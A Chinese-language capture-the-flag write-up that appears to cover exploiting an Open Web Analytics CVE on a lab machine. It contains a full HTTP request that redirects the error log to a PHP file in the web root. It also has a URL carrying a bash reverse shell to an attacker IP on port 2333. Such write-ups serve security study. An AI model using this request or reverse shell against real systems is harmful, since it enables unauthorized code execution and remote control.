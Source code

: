 ![20230402](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_4/20230402%2020.png)

我这里做题太久了，靶场被重置了一下，所以temp_passkey换成最新的了。

### php file write

根据那篇分析cve的[文章](https://devel0pment.de/?p=2494)，点进settings，这里文件上传对应的action是 **`base.optionsUpdate`** 与之对应得Controller是 **`owa_optionsUpdateController`** 

代码分析过程就不复述了，关键部分截图如下

![20230402](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_4/20230402%2021.png)

[https://www.notion.so](https://www.notion.so)

这里我们可以通过修改对应的 `base.error_log_file`  和 `base.error_log_level` ****来使得攻击者构造得内容写入文件中

我们这里看[http://openwebanalytics.vessel.htb/index.php?owa_do=base.optionsGeneral](http://openwebanalytics.vessel.htb/index.php?owa_do=base.optionsGeneral) 也能看到对应的Log File所在目录

![20230402](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_4/20230402%2022.png)

创建请求测试，验证访问（发现文件被创建了）：[http://openwebanalytics.vessel.htb/owa-data/logs/neko.php](http://openwebanalytics.vessel.htb/owa-data/logs/neko.php)

```php
POST /index.php?owa_do=base.optionsGeneral HTTP/1.1
Host: openwebanalytics.vessel.htb
Content-Length: 185
Cache-Control: max-age=0
Origin: http://openwebanalytics.vessel.htb
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://openwebanalytics.vessel.htb/index.php?owa_do=base.optionsGeneral&owa_site_id=&owa_status_code=2500&
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: owa_userSession=admin; owa_passwordSession=bf38e9d85b691942e25d3967408d1fc4fdbd0033b7d409d3f7b3617173e81409
sec-gpc: 1
Connection: close

owa_config%5Bbase.error_log_level%5D=2&owa_config%5Bbase.error_log_file%5D=/var/www/html/owa/owa-data/logs/neko.php&&owa_nonce=81b2a1198d&owa_action=base.optionsUpdate&owa_module=base
```

拿shell(访问 [`http://openwebanalytics.vessel.htb/owa-data/logs/neko.php?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.24/2333 0>%261'`](http://openwebanalytics.vessel.htb/owa-data/logs/neko.php?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/10.10.14.24/2333%200%3E%261%27)
